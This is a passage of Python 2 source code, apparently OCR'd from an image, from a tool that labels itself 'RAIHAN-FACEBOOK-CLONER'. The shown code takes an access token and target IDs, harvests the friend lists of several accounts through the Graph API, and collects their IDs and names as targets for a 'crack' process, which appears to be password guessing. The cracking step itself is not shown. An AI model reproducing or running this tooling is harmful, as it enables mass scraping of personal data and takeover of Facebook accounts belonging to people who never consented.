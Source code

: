         r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[3] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[4] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rishu == '0':
        menu()
    else:
        print ''
        print '\tSELECT VALID OPTION'
        print ''
        choice()
    print '\x1b[1;97m[=] TOTAL IDS :\x1b[1;92m ' + str(len(id))
    print '\x1b[1;97m[=] THE PROCESS HAS STARTED'
    print '\x1b[1;97m======================================================='
    print '\x1b[1;93m     RAIHAN-FACEBOOK-CLONER'
    print '\x1b[1;97m=======================================================-'
    